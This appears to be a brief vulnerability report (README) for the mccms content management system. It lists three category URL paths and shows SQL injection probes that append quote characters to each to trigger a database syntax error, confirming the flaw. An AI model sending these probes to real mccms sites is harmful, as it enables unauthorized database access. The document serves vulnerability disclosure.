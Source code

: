 # cve
mccms Vulnerability analysis
How to use black box testing

After testing, the following three URLs are the places for data interaction
http://ip/category/order/hits/copyright/46/finish/1/list/
http://ip/category/order/hits/city/42/copyright/46/finish/1/list/
http://ip/category/order/addtime/city/42/copyright/46/finish/1/list/

By letting the database report an error to determine whether there is SQL injection, we try to use character closure

http://ip/category/order/hits/copyright/46/finish/1/list/1'"1
http://ip/category/order/hits/city/42/copyright/46/finish/1/list/1'"1
http://ip/category/order/addtime/city/42/copyright/46/finish/1/list/1'"1
Determine the existence of SQL injection through the page echo You have an error in your SQL syntax

The open source address of mccms is https://github.com/chshcms/mccms

